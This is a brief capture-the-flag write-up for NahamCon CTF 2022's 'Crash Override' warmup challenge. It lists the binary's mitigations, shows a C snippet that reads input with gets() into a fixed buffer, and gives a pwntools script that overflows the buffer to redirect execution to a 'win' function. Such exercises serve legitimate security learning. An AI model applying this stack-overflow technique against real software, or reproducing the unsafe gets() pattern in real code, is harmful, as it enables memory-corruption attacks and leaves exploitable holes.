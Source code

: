 ```yaml
---
title: "[Warmup] Crash Override [Nahamcon CTF 2022]"
date: 2022-05-06 23:35:00
---
```


# 0x0 Introduction

Author: @M_alpha#3534

Remember, hacking is more than just a crime. It's a survival trait.

files: [crash_override](crash_override), [crash_override.c](crash_override.c)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

# 0x2 Vuln

very simple buffer overflow

```
void win(int sig) {
    // print flag
}
int main(void) {
    char buffer[2048];
    gets(buffer);

    return 0;
}
```

# 0x3 Exploit

```
io = start()
wait_for_debugger(io)

io.sendlineafter(b"!\n",flat({
    0x800+0x8:exe.sym["win"]
}))

io.interactive()
```

# 0x2 Flag

None